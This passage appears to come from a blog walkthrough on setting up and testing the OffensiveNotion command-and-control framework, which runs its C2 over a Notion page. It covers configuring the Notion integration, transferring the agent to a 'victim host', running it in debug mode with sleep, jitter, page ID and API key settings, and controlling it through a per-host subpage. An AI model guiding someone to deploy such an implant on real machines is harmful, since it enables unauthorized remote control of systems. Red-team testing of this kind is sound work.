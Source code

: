 7. Head over to your newly created Notion page click the three dots at the top right and add a new connection

![image](https://user-images.githubusercontent.com/16122365/235882256-9bcede44-0195-4de9-a675-a07658f452cb.png)

8. Grab the parent page ID of your Notion page by hitting the share button and copying the link into an editor of choice

![image](https://user-images.githubusercontent.com/16122365/235883290-086ad4f6-77d4-48e4-b485-e2aad1f72f06.png)

9. Grab the id portion of the URL which will be used in the agent configuration

![image](https://user-images.githubusercontent.com/16122365/235883605-33e05857-61b2-4f7b-add9-9a3b58317c28.png)


# Testing the C2 Server - Initial Access

For the purposes of the blog I will not be delivering the payload but you can assume that any common initial access vector can be used and then the agent itself can be downloaded as a subsequent stage malware as is common with many intrusions.

1. Download the agent from the releases section of the Offensive Notion GitHub: https://github.com/mttaggart/OffensiveNotion/releases. For the test we will use the Windows debug agent to keep things simple.

![image](https://user-images.githubusercontent.com/16122365/235884546-d7ff729a-176b-4d7b-8a2f-c3f94e8fbba3.png)

2. Transfer the agent to the victim host

![image](https://user-images.githubusercontent.com/16122365/235885306-c7423bc0-5e77-41b9-9343-69ba0b2f527a.png)

3. Run the agent with the -d parameter

`./offensive_notion -d`

5. Enter the following configuration parameters

```
[*] Starting!
Getting config options!
[*] Enter agent sleep interval > 5
[*] Enter agent jitter time > 0
[*] Enter parent page id > [insert page id - STEP 8 in previous section]
[*] Enter API Key > [insert integration token secret - STEP 6 in previous section]
[*] Enter Config File Path > [leave blank]
[*] Enter Log Level (1-4) > 2
```
6. Once run, you should see a new sub page created in your Notion parent page that is representative of the hostname of the victim device.

![image](https://user-images.githubusercontent.com/16122365/235894877-9276b54d-8f82-4c44-b64c-d93ad7fbbd58.png)

7. By clicking on the hostname entry we can enter a sub-page and start to interact with the agent.

![image](https://user-images.githubusercontent.com/16122365/235903428-abcc7ae1-5462-41fc-a59f-7433468d2048.png)
